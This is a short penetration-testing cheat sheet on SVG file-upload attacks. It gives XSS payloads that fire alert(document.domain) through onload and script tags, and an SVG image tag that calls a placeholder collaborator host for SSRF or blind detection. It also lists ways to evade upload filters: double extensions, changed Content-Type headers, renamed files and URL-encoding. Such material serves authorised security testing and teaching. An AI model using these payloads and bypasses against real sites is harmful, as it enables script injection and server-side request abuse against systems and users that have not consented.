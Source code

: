 ```svg
<!-- onload alert -->
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>

<!-- script tag -->
<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>

<!-- external image -> useful for SSRF/blind testing -->
<svg xmlns="http://www.w3.org/2000/svg">
  <image href="http://YOUR-COLLAB.DOMAIN/track?test=svg"/>
</svg>
```
- - Check: Content-Type returned, CSP, X-Content-Type-Options.
- Bypass:
  - Change `exploit.svg` to `exploit.svg.png` or `exploit.svg.jpg`
  - Modify `Content-Type` to `image/svg+xml` or `text/xml`
  - Send as `.txt` or `.html` with SVG content
  - URL-encode `exploit%2Esvg` or just add **spaces/newlines**
